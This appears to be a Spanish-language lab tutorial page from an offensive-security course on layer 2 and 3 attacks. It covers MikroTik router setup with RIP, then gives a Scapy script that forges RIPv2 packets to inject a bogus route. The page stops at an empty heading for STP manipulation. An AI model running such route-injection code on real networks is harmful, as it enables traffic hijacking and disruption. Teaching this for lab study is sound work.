 ```yaml
---
theme: "just-the-docs"
title: "Explotacion Capa 2 y 3"
layout: default
nav_order: 19
parent: "Seguridad Ofensiva"
---
```

# Explotacion Capa 2 y 3
## Configuracion Mikrotik
Opcionalmente si quieres borrar el mikrotik se puede usar el siguiente comando:
```
system reset-configuration
```
Para revisar las IPs en Mikrotik
```
ip add print
```
Configuracion de interface bridge, asignacion de IP y configuracion de RIP
```
interface bridge add name=bridge1
interface bridge port add bridge=bridge1 interface=ether1
ip dhcp-client add disabled=no interface=bridge1
routing rip interface add send=v1-2
routing rip network add network=192.168.85.0/24
```
Revision de la tabla de rutas
```
ip route print
```
## Creacion de script para inyeccion de rutas con RIP
```
nano rip.py
```
```
from scapy.all import *
PDU = Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type="IPv4")
PDU /= IP(tos=192,ttl=2,proto=17,src="192.168.85.100",dst="224.0.0.9")
PDU /= UDP(sport=520, dport=520)
PDU /= RIP(cmd=2,version=2)
PDU /= RIPEntry(AF=2, RouteTag=1354, addr="2.0.0.0", mask="255.0.0.0", nextHop="0.0.0.0", metric=1)
sendp(PDU)
```
## Creacion de script para la manipulacion de STP
